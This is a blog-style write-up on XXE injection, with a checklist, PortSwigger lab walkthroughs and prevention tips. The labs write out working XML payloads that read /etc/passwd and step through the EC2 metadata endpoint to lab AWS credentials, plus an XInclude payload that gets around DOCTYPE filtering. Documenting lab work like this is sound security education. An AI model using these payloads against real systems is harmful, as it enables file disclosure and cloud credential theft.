 ```yaml
---
layout: post
title: XXE (XML External Entities) Injection
subtitle: How malicious user can abouse External Entities to perform XXE
date: 2025-07-30 12:43
author: Ren Sie
comments: true
category: injection
---
```

The method isn’t as popular as others because of the patches. But if comes across with application that access and passing XML, worth trying!

{: .box-note}
**Note:** 💡 Try pass XML data to API endpoint. They sometimes accept XML data besides JSON data.

### XML
Some Apps use XML to transfer data. XML has its default entities, which define the way of representing data or special characters. For instance: 
- `&amp;` → `&`
- `&lt;` → `<`
- `&gt;` → `>`

#### **External Entities**
By default, XML has predefined entities to represent special symbols (like `&lt;` for `<`), but **XML External Entities (XXE)** allow users to define **custom entities**. These custom entities can reference **external resources**, such as _local files_ or _external URLs_. This flexibility can be exploited to read sensitive files on the server, or run RCE.  
They can be defined using the `<!ENTITY>` syntax in XML like this:
~~~
xml:
<!ENTITY entity_name SYSTEM "path_to_file_or_url">
~~~
An example of malicious XML can be:
The entity `xxe` in the `creds` document reference the `/etc/passwd`. When the file path (external URL) is passed, it will be places at `&xxe;`.
~~~
xml:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
~~~

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  
  Objective  
  1. **Identify endpoints that can process XML**  
      * Send test requests with XML payloads and set Content-Type to `application/xml` or `text/xml`.  
      * Inspect response content: `Content-Type: application/xml` or `Content-Type: text/xml` as accepted request headers.  

  2. **Create a working XML payload that can be adapted to deliver exploits**  
      * First create a valid XML structure that the application accepts  
      * Then modify it with malicious content tailored to target the application's XML processing logic  

  3. **Test identified endpoints for XXE**  

Attack surface discovery  
  1. **Identify endpoints that accept XML payloads**  
      * Review requests in proxy for XML data (e.g., Burp Suite)  
      * Identify endpoints that accept JSON by sending XML  
      * Identify endpoints that accept images by sending SVG images  
      * Identify endpoints that accept documents by sending DOCX or PDF files  

  2. **Test with the header Content-Type: application/xml**  

  3. **Verify working XML payloads that can be adapted to deliver exploits**  
      * Confirm the endpoint accepts and processes XML  
      * Inject harmless modifications to observe behavior changes  

  5. **Locate internal DTDs**  
      * <!DOCTYPE ...> that contains `[internal subset]`, `[internal declaring elements]`, `[internal declaring entities]`, or `[attribute rules]`  
Testing




### Labs
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection) to show how this vulnerability can lead to:
#### Exploiting XXE using external entities to retrieve files  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity containing the path to the file `etc/passwd`.
   ~~~
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE test [  
   <!ENTITY xxe SYSTEM "file:///etc/passwd">  
   ]>  
   <stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>  
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin
   
#### Exploiting XXE to perform SSRF attacks  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity `test` to access EC2 instance metadata. More details about what _EC2 instance metadata_ is, visit [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "iam" entity inside  
   > "Invalid Product ID:  
   > iam"
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam">  
   ]>
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>
   ~~~
   > Response: It tells us there's an "security-credentials" entity inside  
   > "Invalid Product ID:  
   > security-credentials"

   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "admin" entity inside  
   > "Invalid Product ID:  
   > admin"  
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: We retrieves admin's access key
   > "Code":"Success",  
   > "LastUpdated":"2021-11-15T11:29:31.956206Z",  
   > "Type":"AWS-HMAC",  
   > "AccessKeyId":"BordnBx2QrCdt7VGVWT3",  
   > "SecretAccessKey":"yBZJPYWjn4XFnBLk3fqe305Fqdc7YT3SUs4vomxF",  
   > "Token":"kMW7yE0Z00lCE8zoDhS1rjX0vRBQG0EepbmRtzxmyzW0g8QtJ4j",  
   > "Expiration":"2027-11-14T11:29:31.956206Z"  

{: .box-note}
**Note:** 💡SSRF exploits a server's request-making functionality, allowing user to make a crafted request that pivots from the public-facing application and uses the server's trusted internal network position to scan, access, and exfiltrate data from otherwise unreachable backend services and cloud metadata endpoints.

#### Exploiting XInclude to retrieve files  
   I identified the server-side xml parser by studying `GET /product?productId=3` on Burp Proxy. Insert the `Xinclude namespace` and the filepath to `POST /product/stock` on Repeater.
   ~~~
   productId=<test  
   xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>  
   </test>&storeId=2
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin

{: .box-note}
**Note:** 💡XInclude is used to bypass DTD-based Mitigation in this instance, If the application is blocking <!DOCTYPE>, an XInclude might still succeed.

### Prevention
1. Disable XML external entity
2. Use JSON instead of XML
3. Validate and Sanitize XML Input (with XSD)
4. Restrict Network/File Access (OS or Container Level)
